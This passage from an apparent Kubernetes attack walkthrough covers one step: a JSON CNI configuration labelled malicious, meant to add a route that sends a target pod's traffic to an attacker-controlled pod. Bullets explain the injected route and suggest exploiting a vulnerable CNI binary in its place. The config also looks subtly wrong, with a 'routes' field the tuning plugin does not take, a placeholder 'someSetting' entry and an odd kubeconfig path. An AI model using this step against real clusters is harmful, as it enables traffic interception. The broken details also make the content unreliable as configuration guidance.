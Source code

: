 **Step 4: Create a Malicious CNI Configuration File**

This step requires creating a malicious CNI configuration file. The specific content will depend on the CNI plugin and the desired attack vector. Here, we'll inject a `tuning` plugin to modify the routing table and redirect traffic to a pod controlled by the attacker.

We'll assume the attacker has a pod running at IP address `10.244.1.5` and wants to intercept all traffic destined for pod `10.244.2.10`.

```json
{
    "cniVersion": "0.3.1",
    "name": "mynet",
    "plugins": [
        {
            "type": "calico",
            "log_level": "info",
            "datastore_type": "kubernetes",
            "nodename": "k8s-node",
            "ipam": {
                "type": "calico-ipam"
            },
            "policy": {
                "type": "k8s"
            },
            "kubernetes": {
                "kubeconfig": "/etc/cni/net.d/10-calico.conf"
            }
        },
        {
            "type": "tuning",
            "someSetting": "arbitrary",
            "routes": [
                {
                    "dst": "10.244.2.10/32",
                    "gw": "10.244.1.5"
                }
            ]
        },
        {
          "type": "portmap",
          "capabilities": {"portMappings": true}
        }
    ]
}
```

*   **Explanation:** This JSON configuration defines a CNI configuration that includes the original `calico` configuration followed by a custom `tuning` plugin.  The `tuning` plugin is used to inject a new routing rule.  The portmap plugin allows for hostport binding.
*   **Why:**  The injected route redirects all traffic destined for `10.244.2.10` to the attacker's pod at `10.244.1.5`. The `tuning` plugin is an example. Replace this with an exploit of the CNI plugin if it contains a vulnerable component, such as a binary.
*   **Expected Output:**  A valid CNI configuration file.
*   **What to Look For:**  The `routes` array within the `tuning` section. The `dst` should match the target pod's IP address, and the `gw` should match the attacker's pod's IP address.
*   **Variation:**  The `tuning` plugin is illustrative. The attacker might use a different method of manipulating the routing table or network configuration, depending on the CNI plugin's capabilities.  For example, some CNI plugins might allow defining custom network policies that can be abused.
*   **Contribution:** This malicious configuration is the core of the exploit, allowing the attacker to redirect network traffic.
